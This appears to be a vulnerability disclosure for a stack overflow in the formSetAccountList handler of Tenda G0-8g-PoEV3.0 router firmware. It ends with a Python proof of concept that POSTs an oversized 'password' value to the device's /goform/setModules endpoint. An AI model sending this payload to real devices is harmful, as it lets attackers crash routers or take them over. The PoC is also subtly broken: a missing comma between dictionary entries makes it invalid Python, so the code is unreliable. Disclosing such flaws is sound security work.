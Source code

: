 # Tenda G0-8g-PoEV3.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680) and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the formSetAccountList function. Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 30、34, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
